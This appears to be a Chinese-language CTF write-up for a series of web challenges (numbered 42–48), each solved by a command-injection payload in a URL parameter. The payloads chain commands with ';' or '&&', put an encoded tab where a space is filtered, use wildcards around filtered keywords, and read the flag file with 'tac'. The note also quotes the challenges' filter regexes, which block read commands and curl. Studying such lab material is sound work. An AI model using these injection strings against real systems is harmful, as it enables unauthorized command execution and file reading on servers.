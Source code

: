 
```
?c=ls;ls      //双写绕过，这里是因为shell内部通过;来隔离多个命令，代码阅读从右到左，shell会先执行右边的ls将其扔进黑洞，但左边的ls不会去管他

?c=tac flag.php;ls
```

# web43：shell重定向+过滤 | ：| flag | 
 
```
上题解法可行
?c=ls&&ls;     //&&相当于把命令分割，同时进行两个命令执行，黑洞只会吃第一个
?c=tac flag.php&&ls
```

# web44: shell重定向+过滤 | ：| flag | cat |

同理上题，只需要写/fla*

# web45: shell重定向+过滤 | ：| flag | cat |   |

```
?c=tac fla*.php%26%26ls    //由于空格过滤，所以改一下代码
?c=tac%09fla*.php%26%26    //成功绕过空格
```

# web46: shell重定向+过滤 |\\|;|cat|flag| |[0-9]|\\$|\*/i

过滤了星号，但是可以用?代替
```
?c=tac flag.php%26%26ls   //常规写法，空格、php都被过滤
?c=tac%09fla?.php%26%26ls
```

> [!NOTE] 为什么过滤了数字，%20这种没被过滤呢？
> 因为%20会被识别为特殊字符，而不是数字，这是一种编码形式

# web47：shell重定向+/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail/i

过滤了其他读命令，但tac没被过滤
```
?c=tac%09fla?.php%26%26ls
```

# web48: shell重定向+/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail| sed | cut | awk | strings | od | curl |/i

过滤了其他读命令，但tac没被过滤
```
?c=tac%09fla?.php%26%26ls
```
